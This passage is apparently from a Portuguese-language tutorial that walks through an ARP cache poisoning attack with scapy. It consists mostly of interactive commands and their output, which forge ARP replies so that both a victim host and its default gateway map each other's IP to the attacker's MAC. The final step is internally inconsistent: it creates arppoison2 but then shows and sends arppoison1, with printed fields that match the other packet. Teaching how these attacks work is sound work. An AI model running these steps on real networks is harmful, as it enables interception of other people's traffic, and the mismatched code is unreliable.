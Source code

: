 ```python
>>> arpreply2 = srp(arprequest2)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> arpreply2[0][0][1]
(<<Ether  dst=28:56:5a:49:ff:67 src=c4:e9:84:9a:14:16 type=ARP |<ARP
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=b4:2e:99:f4:b7:df
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```

A mesma observação feita para o gateway vale para a vítima.

* 2º passo: “envenenar” o arp cache da vítima na linha do default gateway, preenchendo com o MAC address do atacante
* Solução: fake arp reply

```python
>>> arppoison1 = ARP(op = 2, psrc = "192.168.1.1", pdst = "192.168.1.101", hwdst = "b4:2e:99:f4:b7:df")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.1
  hwdst= b4:2e:99:f4:b7:df
  pdst= 192.168.1.101

>>> send(arppoison1)
.
Sent 1 packets.
```

Observe que o que está sendo enviado para a vítima \(`192.168.1.101` no MAC `b4:2e:99:f4:b7:df`\) é que o IP `192.168.1.1` \(default gateway\) está \(`is-at`\) no MAC `28:56:5a:49:ff:67` \(`hwsrc`\) que na verdade é o MAC do atacante.

* 3º passo: “envenenar” o arp cache do default gateway na linha da vítima, preenchendo com o MAC address do atacante
* Solução: fake arp reply

```python
>>> arppoison2 = ARP(op = 2, psrc = "192.168.1.101", pdst = "192.168.1.1", hwdst = "c4:e9:84:9a:14:16")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.101
  hwdst= c4:e9:84:9a:14:16
  pdst= 192.168.1.1

>>> send(arppoison1)
.
Sent 1 packets.
```
